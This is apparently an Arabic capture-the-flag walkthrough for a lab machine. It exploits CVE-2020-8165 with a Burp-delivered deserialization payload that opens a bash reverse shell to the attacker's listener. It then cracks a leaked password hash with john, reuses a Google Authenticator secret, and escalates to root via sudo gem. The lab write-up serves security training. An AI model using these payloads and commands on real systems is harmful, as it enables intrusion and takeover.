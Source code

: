 

 ![Desktop View](/img/jw/0.png)


# Sammmry:


web appاثناء الفحص نجد ان  
نستغلها
CVE-2020-8165 مصابة ب 

shell للحصول على

ثم نقوم بالبحث داخل السيرفر لنجد كلمة سر  
sudo

 john مشفرة نقوم بفكها ب

 verification codeبعد تخطي

gem مسموح له استخدام  user  نجد ان

sudo  ب


- sammmry
- 1 Recon
   - 1.1 nmap
   - 1.2 Port
- 2 CVE-2020-8165
   - 2.1 Create new user
   - 2.2 Burp suite
   - 2.3 exploit.
   - 2.4 Got shell
- 3 User
   - 3.1 john
   - 3.2 gauth
- 4 privesclation
   - 4.1 sudo gem


## 1 Recon

### 1.1 nmap

nmap ‫نبدا‬  بفحص البورتات باستخدام  


 ![Desktop View](/img/jw/1.png)

‫‪8000‬‬ ‫و‬ ‫‪8080‬‬

‫‪web‬‬ ‫‪server‬‬ ‫شغالين‬

### 1.2 Port

 ![Desktop View](/img/jw/2.png)


 CVE-2020-8165 السيرفر مصاب ب


## 2 CVE-2020-8165

### 2.1 Create new user
نقوم بانشاء  مستخدم جديد


 ![Desktop View](/img/jw/3.png)


 ![Desktop View](/img/jw/4.png)

 profile نذهب الى

### 2.2 Burp suite

burp suite نشغل

Proxy on

 ![Desktop View](/img/jw/5.png)

update userثم نضغط

requestثم نلتقط


 ![Desktop View](/img/jw/6.png)
 



### 2.3 exploit

 ‫‪send to repeater‬‬  نقوم بالضغط على الزر الايمن للفارة ثم نضغط


  ![Desktop View](/img/jw/7.png)


 : بالبايلود الخاص بنا username variableنقوم بتغير

 ```
 %04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedIn
stanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%4
0srcI%22E%60%2Fbin%2Fbash+-c+%22%2Fbin%2fbash+-
i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.212%2F4444+0%3E%261%22%60%0
6%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linen
oi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result
%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADepr
ecation%00%06%3B%09T
```

غير10.10.14.212الى

 الخاص بك host 

nc –lnvp 4444 نشغل

 send ثم نضغط


  ![Desktop View](/img/jw/8.png)

  ![Desktop View](/img/jw/9.png)


 قم بتصفح



 http://10.10.10.212/articles



  ![Desktop View](/img/jw/10.png)

 ### 2.4 Got shell

  ![Desktop View](/img/jw/11.png)

## 3 User

### 3.1 john

في المسار التالي hash بالبحث داخل السيرفر نجد

/var/backups/dump_2020-08-27.sql

 john نضعه في ملف ثم نقوم بفك 
 تشفيره باستخدام

spongebobنجد كلمة سر

نشغل الامر


```
Sudo –l

```
نكتب كلمة السر

spongebob   


كلمة السر صحيحة لكن يطلب منا

verification code


![Desktop View](/img/jw/12.png)

/home/billعند البحث داخل السيرفر نجد في

.google_authenticator


![Desktop View](/img/jw/14.png)


GAuth Authenticatorنجد بداخله

 نذهب الى الموقع

 https://gauth.apps.gbraad.nl


  ![Desktop View](/img/jw/15.png)

  ![Desktop View](/img/jw/16.png)



verification codeحصلنا على


  ![Desktop View](/img/jw/17.png)


## 4 privesclation

### 4.1 sudo gem

 gem نجد اليوزر مسموح له

 /usr/bing/gem


 gem ونبحث عن gtfbobinsنذهب الى موقع

  ![Desktop View](/img/jw/19.png)


  ![Desktop View](/img/jw/20.png)


 نقوم بكتابة الامر التالي

```sudo gem open -e "/bin/sh -c /bin/sh" rdoc```



  ![Desktop View](/img/jw/21.png)

# rootحصلنا على
